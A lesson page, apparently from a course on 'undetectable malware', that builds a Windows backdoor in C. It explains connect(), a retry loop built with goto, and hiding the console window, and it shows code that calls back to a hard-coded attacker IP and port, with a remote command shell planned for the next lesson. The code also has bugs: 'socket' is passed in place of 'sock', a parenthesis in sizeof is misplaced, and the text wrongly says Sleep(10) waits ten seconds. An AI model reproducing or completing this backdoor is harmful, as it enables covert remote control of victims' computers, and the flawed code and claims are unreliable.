 ```yaml
---
title: Stablishing connection
course: undetectable_malware
section: "Building sockets"
layout: lesson
---
```


Before we can take a break by working in our main function and start working in
our malware functionalities, we need to stablish the actual connection, let's do
that.

To perform a connection, we can use the "_connect_" function. To use it, simply
invoke it and pass the socket as first argument, for the second argument, pass
the memory location of the server address "_ServAddr_", but we have to also
convert it to "**struct** sockaddr", to do so, simply open brackets before
"_&ServAddr_" and type "```(struct sockaddr *)```" and the third and last
parameter will be the actual size of the "_ServAddr_". That newly created line
would look like this:

```c
connect(sock, (struct sockaddr *) &ServAddr, sizeof(ServAddr));
```

This is not the only thing we are going to code, we want our backdoor to try to
connect to the target every 10 seconds. Why? Well, imagine you delivered the
payload to the target, and they start it before you start the server, it will
try to connect to your server, even before you it is started and waiting for
incoming connections, so it will execute the code only to this part as it will
return an error because the connection was not successful. How do we do it?
Simple. We will execite the connect function every ten seconds until it is
connected to the server. So create a while loop which condition will be the
previously called function plus "!= 0" at the end, so... That portion of the
code will be executed until the returned value of "_connect_" is not equal to
zero, when it is equals to zero, it means the connection was stablished and our
program will continue its execution. In the inside of our while loop, add
"Sleep(10);" which will make our Backdoor not to do anything for the amount of seconds
we entered, in this case, 10. Right below "Sleep(10);" we will add "goto
start;". What is start? Well, actually, we haven't implemented it yet, so let's
go to the before of our while loop and add "start:".

We have defined something called "**start**" right before the while loop, so
let's imagine that line "**start:**" is some kind of a checkpoint, when called
will execute our while loop which checks if a connection is stablished, if it
is, then it will stop that portion of code, so the "**start:**" _checkpoint_
won't be called again and continue with the program execution.

When the connection is stablished (below/after the connect while loop) we will
call the "_Shell_" function and in the next lesson we will code our Shell
function which will receive the commands we send from the server, will execute
them and send the output back to server.

This is how our code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
